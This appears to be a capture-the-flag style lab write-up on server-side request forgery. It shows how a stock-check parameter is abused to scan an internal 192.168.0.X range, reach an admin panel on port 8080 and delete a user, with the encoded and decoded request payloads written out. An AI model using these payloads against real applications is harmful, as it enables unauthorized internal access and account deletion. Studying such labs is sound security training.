

# Lab 2: Basic SSRF against another back-end system

- Vulnerability feature: stock check
- Goal: use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port `8080`, then use it to delete the user carlos.

### Analysis
- Open Burp Suite
```html
<!-- Request -->
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1

<!-- Response -->
502
```
- Decode `stockApi`
```html
<!-- Request -->
stockApi=http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1

stockApi=http://192.168.0.1:8080/

<!-- Response -->
"Missing parameter"
```

- Fuzzing IP address





- Send to repeater
```html
<!-- Request -->
stockApi=http://192.168.0.9:8080/

<!-- Response -->
"Not Found"
```

```html
<!-- Request -->
stockApi=http://192.168.0.9:8080/admin

<!-- Response -->
<a href="/admin">
    Admin panel
</a>

<a href="/http://192.168.0.9:8080/admin/delete?username=carlos">
    Delete
</a>
```

```html
<!-- Request -->
stockApi=http://192.168.0.9:8080/admin/delete?username=carlos
```
- Click `Follow redirection`
- Congratulations!